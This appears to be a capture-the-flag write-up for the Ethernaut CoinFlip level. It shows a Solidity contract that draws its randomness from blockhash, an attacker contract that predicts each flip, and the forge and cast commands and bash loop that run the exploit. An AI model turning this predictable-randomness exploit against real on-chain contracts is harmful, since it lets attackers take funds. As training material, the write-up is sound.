 ## Fallback Level Outline

**Difficulty : 3/10**

This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x9CB391dbcD447E645D6Cb55dE6ca23164130D008)

## Solution
Because the flip is calculated onchain using the previous blockhash, we can predict what the outcome will be by simulating the coinflip on our custom smart contract and submitting the result.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import 'openzeppelin-contracts/contracts/utils/math/SafeMath.sol';

contract FortuneTeller {
    using SafeMath for uint256;
    CoinFlip coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlip) {
        coinFlip = CoinFlip(_coinFlip);
    }

    function predictFuture() public {
        uint256 blockValue = uint256(blockhash(block.number.sub(1)));
        bool prediction = blockValue.div(FACTOR) == 1 ? true : false;

        coinFlip.flip(prediction);
    }
}

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:FortuneTeller --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. create a simple bashscript to flip the coin 10 times
```console
touch flip.sh
```
add the following bash script to `flip.sh`
```bash
#!/bin/bash
for i in {1..10}
do
    cast send $DEPLOYED_ADDRESS "predictFuture()" --gas 80000 --private-key $PRIVATE_KEY
    sleep 20s
    echo Correct Flips : $i
done
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

4. run `flip.sh`
```console
chmod 777 flip.sh
./flip.sh
```

## Further Reading
How to avoid generating numbers onchain by using [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number)
